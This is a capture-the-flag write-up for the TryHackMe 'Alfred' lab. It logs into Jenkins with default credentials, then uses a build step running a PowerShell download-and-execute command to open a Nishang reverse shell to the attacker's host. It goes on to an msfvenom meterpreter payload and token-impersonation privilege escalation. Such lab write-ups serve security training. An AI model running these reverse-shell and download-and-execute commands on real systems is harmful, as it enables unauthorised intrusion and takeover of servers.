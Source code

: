 # Alfred

**Room Link:** [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

### Initial Access

wget [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)&#x20;

Edit the file and add the following to the end of the file. This is just to make it a bit easier when we use it later.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.135.134 -Port 4444
```

**How many ports are open? (TCP only)**

```
nmap -A 10.10.98.134
```

**What is the username and password for the log in panel(in the format username:password)**

admin:admin



**Getting shell**

**Kali**

```
rlwrap nc -lvnp 4444
```

**Jenkins**

<figure><img src="../../.gitbook/assets/image (3) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Under Build add a build step and select 'Execute Windows batch command' then  add the following in the command field

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.135.134:81/Invoke-PowerShellTcp.ps1'); 
Invoke-PowerShellTcp
```

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Switching Shells

**Kali**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.135.134 LPORT=1337 -f exe -o shell.exe
python2 -m SimpleHTTPServer 81
```

**Kali**&#x20;

```
msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.135.134 
set LPORT 1337 
run
```

**Victim**&#x20;

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.8.234:81/shells.exe','shells.exe')"
Start-Process "shell.exe"
```

<figure><img src="../../.gitbook/assets/image (11) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

**Victim (Metasploit)**&#x20;

```
load incognito 
list_tokens -g
```

![](<../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```
impersonate_token "BUILTIN\Administrators" 
getuid
```

We are now NT Authority&#x20;

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Migrating processes to make sure we have correct permissions for the privileged user. The safest process to pick is the services.exe process

```
ps
migrate 668
```

<figure><img src="../../.gitbook/assets/image (2) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
